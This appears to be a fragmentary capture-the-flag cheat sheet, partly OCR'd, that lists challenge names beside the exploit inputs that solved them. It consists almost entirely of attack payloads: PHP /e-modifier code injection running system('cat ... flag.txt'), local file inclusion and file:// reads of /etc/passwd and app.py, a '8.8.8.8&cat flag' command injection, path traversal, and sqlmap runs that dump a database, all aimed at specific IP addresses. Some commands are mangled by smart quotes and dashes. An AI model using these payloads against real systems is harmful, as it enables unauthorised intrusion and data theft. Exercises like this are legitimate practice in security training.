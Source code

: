 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion



File:/etc/passwd      File:/home/ctf/app.py

curl -X POST -H "Host: company.tld" --data "url=file:home/ctf/app.py" "http://34.141.113.155:32567/"              LFI  Ultra-Crawler

8.8.8.8&cat flag   ping-station


/local?image_name=..//..//..//tmp/flag                     File-crawler


curl ‘http://34.159.53.91:32713/?start=’ –data ‘start=flag.php’    PHP.start


sqlmap -u "http://35.246.227.46:30432/user?id=1" --dbs


sqlmap -u "http://35.246.227.46:30432/user?id=1" -D public --dump                 small-data-leak
